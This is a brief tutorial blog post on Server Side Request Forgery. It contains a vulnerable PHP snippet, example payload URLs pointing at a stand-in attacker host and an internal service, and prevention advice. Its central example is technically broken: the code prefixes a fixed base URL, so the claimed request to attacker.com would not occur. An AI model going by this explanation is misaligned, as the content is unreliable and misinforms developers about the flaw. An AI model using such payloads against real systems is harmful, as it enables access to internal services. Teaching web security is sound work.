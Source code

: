 ```yaml
---
title: "Server Side Request Forgery (SSRF)"
excerpt: "A guide on how to exploit SSRF vulnerabilities."
categories:
  - Web Exploits
tags:
  - Hacking
  - Web Security
  - Web Exploitation
  - Learning
---
```



Server Side Request Forgery (SSRF) is a web application vulnerability that
allows an attacker to make requests to other systems or services that the
vulnerable application has access to. This can be used to perform attacks on
internal systems or retrieve sensitive information.

SSRF attacks occur when an application processes a user-supplied URL and makes
a request to that URL. An attacker can manipulate the URL to make the
application send requests to other systems or services that are accessible to
the application.

An example of an SSRF attack involves a web application that allows users to
upload profile pictures that are stored on a separate server. The application
uses the following code to retrieve the user's profile picture:

```php
<?php
   $url = 'https://profilepictures.com/' . $_GET['picture_id'];
   $data = file_get_contents($url);
   echo '<img src="' . $url . '">';
   ?>
```

An attacker could exploit an SSRF vulnerability by providing a malicious URL
as the `picture_id` parameter, such as:

```
https://profilepictures.com/?picture_id=http://attacker.com/malicious_script
```

When the application requests the user's profile picture using the URL
provided in the `picture_id` parameter, it will make a request to
`http://attacker.com/malicious_script`. The attacker can then use this request
to launch further attacks on internal systems or retrieve sensitive
information.

For example, the attacker could modify the URL to access an internal web
service:

```
https://profilepictures.com/?picture_id=http://internal-service.local:8080
```

If the internal service is not properly secured, the attacker could
potentially access sensitive data or carry out further attacks.

SSRF attacks can be prevented by implementing proper input validation and
sanitization, as well as restricting the access that the application has to
other systems and services. Additionally, applications should be tested
thoroughly for SSRF vulnerabilities, and any discovered vulnerabilities should
be patched as soon as possible.